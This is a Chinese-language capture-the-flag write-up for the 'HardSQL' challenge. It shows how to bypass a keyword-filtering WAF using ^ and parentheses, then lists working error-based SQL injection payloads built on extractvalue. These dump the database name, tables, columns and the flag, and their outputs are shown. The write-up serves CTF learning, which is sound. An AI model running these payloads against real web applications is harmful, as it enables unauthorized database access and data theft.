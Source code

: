 # 2021/07/07

## HardSQL

> 极客大挑战 2019

### 题目

题目已经明示了**SQL注入**，直接开始试，发现存在waf，先试试过滤了哪些字符，包括`and or | & union space hex ascii`等一些常见的函数和符号，但是有几个符号没有被过滤，包括`^ ()`，分别用来取代`and or`和`space`，而`union`被过滤，我们需要另外一种方式进行注入，当我们输入一些错误信息时，会有回显，代表这道题目不太可能是**盲注**，通过测试发现报错注入的`extractvalue`和`updatexml`两个函数并没有被过滤，这道题我们可以采用这种方法，进行注入，先试试`?username=bme&password=1'^extractvalue(1,concat(0x7e,database()))%23`，发现有回显`XPATH syntax error: '~geek'`，说明思路是正确的，接下来继续注入就行，值得注意的是**Xpath报错注入是有位数上限**的，需要借助`right`和`left`函数，显示出完整的`flag`

### payload

```
// username=bme
password=1'^extractvalue(1,concat(0x7e,database()))%23
// XPATH syntax error: '~geek'
password=1'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('geek')))))%23
// XPATH syntax error: '~H4rDsq1'
password=1'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1')))))%23
// XPATH syntax error: '~id,username,password'
password=1'^extractvalue(1,concat(0x7e,(select(group_concat(password))from(H4rDsq1))))%23
// XPATH syntax error: '~flag{7d35b909-3de4-4ead-917f-50'
password=1'^extractvalue(1,(select(left(password,40))from(H4rDsq1)))%23
// XPATH syntax error: '{7d35b909-3de4-4ead-917f-5023f5f'
password=1'^extractvalue(1,(select(right(password,30))from(H4rDsq1)))%23
// XPATH syntax error: 'de4-4ead-917f-5023f5f3f8e3}'
```